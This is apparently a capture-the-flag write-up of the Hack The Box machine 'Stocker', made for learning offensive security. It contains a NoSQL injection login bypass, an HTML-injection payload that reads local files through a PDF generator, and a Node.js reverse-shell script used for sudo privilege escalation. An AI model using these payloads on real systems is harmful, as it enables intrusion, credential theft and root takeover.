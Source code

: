 # HTB Machine Stocker


we atart with nmap scan:
```shell
┌──(Jack㉿Sparrow)-[~/Downloads/htb/stocker]
└─$ sudo nmap -sS -sC -T5 10.10.11.196 -oN nmap.txt
[sudo] password for Jack: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-30 02:18 EDT
Nmap scan report for 10.10.11.196
Host is up (0.68s latency).
Not shown: 938 closed tcp ports (reset), 60 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://stocker.htb

Nmap done: 1 IP address (1 host up) scanned in 29.93 seconds                                                           
```

we have 2 ports open: 22(ssh) , 80(http)

add `stocker.htb` to `/etc/hosts` file

visiting this page we see one comment from `Angoose Garden, Head of IT at Stockers Ltd.`

next we try to bruteforce subdomains:
```shell
┌──(Jack㉿Sparrow)-[~]
└─$ gobuster vhost -u stocker.htb -w /usr/share/wordlists/dirb/common.txt  --append-domain  -t 100
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://stocker.htb
[+] Method:          GET
[+] Threads:         100
[+] Wordlist:        /usr/share/wordlists/dirb/common.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/03/30 02:44:46 Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
Progress: 4614 / 4615 (99.98%)
===============================================================
2023/03/30 02:45:04 Finished
===============================================================
```

again we need to add `dev.stocker.htb` to `/etc/hosts` file

after few try and errors we found that login page is vulnerable to NoSQL Injection.

`Content-Type: application/json`

Payload: `{"username": {"$ne": null}, "password": {"$ne": null}}`

here we can purchase something through api and on view order it will generate pdf or that order.

we can try to Read local file.

Path:`api/order` 
Payload:
```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///etc/passwd'>","description":"It's a red cup.","image":"/etc/passwd","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
response:
```json
{"success":true,"orderId":"642550c92e188ca84f0a3f46"}
```

we can see generated PDF at `/api/po/642550c92e188ca84f0a3f46`

<img width="498" alt="image" src="https://user-images.githubusercontent.com/79740895/228787287-27642032-742a-400f-9b1d-e7814137d623.png">

it is not complete we can modify our payload to:
```json
{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<object data='file:///var/www/dev/index.js' height=800 width=800>","description":"It's a red cup.","image":"Yo","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
result:

<img width="324" alt="image" src="https://user-images.githubusercontent.com/79740895/228790867-552de9df-6da5-4534-a6da-f457149e974b.png">

we found Password: `IHeardPassphrasesArePrettySecure`

previously we show one comment from Angoose Garden, Head of IT at Stockers Ltd.

we can try this username:`Angoose` and password on ssh.


<img width="228" alt="image" src="https://user-images.githubusercontent.com/79740895/228792401-92e175e9-5868-4f29-9276-513a2303d220.png">

chech root Permission using `sudo -l`

```shell
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

we can escalate our privilege with node 

Payload:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(8888, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

Reference: https://www.revshells.com/

save this as js file and run using sudo and path traversal.

<img width="343" alt="image" src="https://user-images.githubusercontent.com/79740895/228799823-4734593e-c124-4224-ba63-a028a4618805.png">

<img width="200" alt="image" src="https://user-images.githubusercontent.com/79740895/228798809-70c77d3a-894a-4cb9-80fc-49fb48994544.png">

Now we are root.


:octocat: Happy Hacking :octocat:
